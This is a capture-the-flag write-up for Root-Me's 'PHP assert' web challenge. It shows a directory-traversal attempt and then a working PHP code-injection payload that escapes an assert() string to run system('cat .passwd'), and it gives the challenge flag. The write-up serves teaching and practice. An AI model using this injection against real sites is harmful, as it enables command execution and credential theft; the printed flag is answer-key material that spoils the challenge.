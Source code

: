 # [PHP assert](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

So we see the three links that change the url to `?page=home`

So let's just try something: `?page=admin`

We get an error: "'includes/admin.php' File doesn't exist!"

So it takes whatever is passed to `page` and searches for a PHP file with that 
name in the `includes/` directory.

We are trying to read the `.passwd` file. Let's try: `?page=../.passwd`

> Warning: assert(): Assertion "strpos('includes/../.passwd.php', '..') === false" failed 
> in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!

So the backend is checking for directory traversal. But is it sanitizing our input to make 
sure we don't control the result of that if statement?

What if were somehow able to get the contents of `.passwd` in the error message?

`?page=','a') === false and system('cat .passwd') and strpos('`

This would make the `assert()` call look like this:

`assert(strpos('includes/','a') === false and system('cat .passwd') and strpos('.php','..') === false)`

The result of the `assert()` would be true because all three conditionals return true.

And the contents of `.passwd` get written to the screen before our "File doesn't exist" output.

Flag is: **x4Ss3rT1nglSn0ts4f3A7A1Lx**

















